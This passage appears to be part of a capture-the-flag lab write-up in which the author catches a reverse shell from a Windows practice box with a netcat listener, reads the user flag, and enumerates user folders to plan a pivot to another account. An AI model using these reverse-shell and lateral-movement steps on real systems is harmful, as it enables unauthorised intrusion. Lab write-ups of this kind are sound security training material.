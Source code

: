 ```
    target.close()

```

When I run this, it works:

```

oxdf@hacky$ rlwrap -cAr nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.115 57582
Microsoft Windows [Version 10.0.19043.1266]
(c) Microsoft Corporation. All rights reserved.

C:\Users\clara>

```

I’ll run `powershell` to switch shells, and grab `user.txt`:

```

PS C:\Users\clara\Desktop> cat user.txt
b0a89347************************

```

## Shell as development

### Enumeration

#### Users

The box has 3 non-administrator users with home directories:

```

PS C:\users> dir

    Directory: C:\users

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----        11/30/2021   9:54 AM                Administrator
d-----        11/30/2021   9:54 AM                clara
d-----         6/26/2021  10:35 PM                development
d-r---          6/3/2021   7:00 AM                Public
d-----        11/30/2021   9:54 AM                svc_account

```

I’ve already compromised svc\_account and clara. I noted the `C:\DevApp` folder, which clara also can’t access. It seems reasonable to think that development might be able to.
